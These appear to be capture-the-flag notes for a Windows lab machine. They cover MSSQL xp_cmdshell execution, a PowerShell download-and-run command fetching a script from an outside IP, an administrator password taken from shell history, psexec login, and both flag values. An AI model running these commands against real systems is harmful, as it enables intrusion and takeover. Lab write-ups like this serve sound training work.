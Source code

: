 tags:: windows, mssql, psexec

- MSSQL Shell
	- ```powershell
	  xp_cmdshell powershell IEX(New-Object Net.webclient).downloadString(\"http://10.10.14.147:8000/rv.ps1\")
	  ```
- **User flag** at `C:\users\sql_svc\Desktop\user.txt`
	- 3e7b102e78218e935bf3f4951fec21a3
	  background-color:: green
- Administrator password found on shell #history
	- `C:\users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`
		- #+BEGIN_CAUTION
		  /user:administrator MEGACORP_4dm1n!!
		  #+END_CAUTION
- #privesc: Get an administrative shell via psexec
	- ```bash
	  impacket-psexec 'administrator:MEGACORP_4dm1n!!@10.129.40.162'
	  ```
- **Root flag** at `C:\users\Administrator\Desktop\root.txt`
	- b91ccec3305e98240082d4474b848528
	  background-color:: green
- #+BEGIN_QUOTE
  Tags: #windows #mssql #psexec
  #+END_QUOTE